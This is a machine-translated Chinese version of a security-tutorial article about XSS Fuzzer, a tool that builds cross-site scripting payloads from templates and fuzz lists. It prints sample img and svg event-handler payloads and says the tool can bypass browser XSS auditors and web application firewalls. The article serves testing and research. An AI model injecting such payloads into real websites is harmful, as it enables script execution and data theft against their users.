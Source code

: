 # XSS 模糊器:基于用户定义的向量和模糊列表生成 XSS 有效载荷的工具

> 原文：<https://kalilinuxtutorials.com/xssfuzzer-xss-payloads/>

XSS Fuzzer 是一个简单的应用程序，用普通的 HTML/JavaScript/CSS 编写，使用多个占位符生成基于用户定义的向量的 XSS 有效载荷，这些占位符被替换成模糊列表。

它提供了以纯文本形式生成有效载荷或者在 iframe 中执行它们的可能性。在 iframes 内部，可以使用生成的有效负载从浏览器向任意 URL 发送 GET 或 POST 请求。

**也读作[MC extractor——英特尔、AMD，VIA &飞思卡尔微码提取工具](https://kalilinuxtutorials.com/mcextractor-microcode-extraction-tool/)**

## **XSS Fuzzer 为什么？**

XSS Fuzzer 是一个通用工具，可用于多种目的，包括:

*   为任何浏览器寻找新的 XSS 向量
*   在 GET 和 POST 参数上测试 XSS 有效负载
*   在浏览器中绕过 XSS 审计员
*   绕过 web 应用防火墙
*   利用 HTML 白名单功能

## **例子**

为了模糊，需要创建占位符，例如:

*   带有模糊列表的[TAG]占位符。
*   带有模糊列表的[EVENT]占位符:onerror onload。
*   带有模糊列表的[ATTR]占位符:src 值。
*   有效负载将使用提到的占位符，例如:

```
<[TAG] [ATTR]=Something [EVENT]=[SAVE_PAYLOAD] />
```

[SAVE_PAYLOAD]占位符将被替换为 JavaScript 代码，如 alert(unescape('[PAYLOAD]')；。

成功执行 XSS 有效负载时会触发此代码。

上述模糊列表和有效载荷的结果如下:

```
<img src=Something onerror=alert(unescape('%3Cimg%20src%3DSomething%20onerror%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<img value=Something onerror=alert(unescape('%3Cimg%20value%3DSomething%20onerror%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<img src=Something onload=alert(unescape('%3Cimg%20src%3DSomething%20onload%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<img value=Something onload=alert(unescape('%3Cimg%20value%3DSomething%20onload%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<svg src=Something onerror=alert(unescape('%3Csvg%20src%3DSomething%20onerror%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<svg value=Something onerror=alert(unescape('%3Csvg%20value%3DSomething%20onerror%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<svg src=Something onload=alert(unescape('%3Csvg%20src%3DSomething%20onload%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<svg value=Something onload=alert(unescape('%3Csvg%20value%3DSomething%20onload%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
```

当它在诸如 Mozilla Firefox 之类的浏览器中执行时，它会警告执行的有效负载:

```
<svg src=Something onload=[SAVE_PAYLOAD] />
<svg value=Something onload=[SAVE_PAYLOAD] />
<img src=Something onerror=[SAVE_PAYLOAD] />
```

**发送请求**

有可能使用易受 XSS 攻击的页面进行不同的测试，例如绕过浏览器 XSS 审计器。该页面可以接收一个名为 payload 的 GET 或 POST 参数，并将只显示其未转义的值。

[![](img/d861a9096555aeb1980fc054015933d7.png) ](https://github.com/NytroRST/XSSFuzzer) ** *您可以在 [Linkedin](https://www.linkedin.com/company/gbhackers/) 、 [Twitter](https://twitter.com/GbhackerOn) 、[脸书](https://www.facebook.com/gbhackersadmin)上关注我们的日常网络安全更新，您还可以在线参加[最佳网络安全课程](https://ethicalhackersacademy.com/)以保持自我更新。***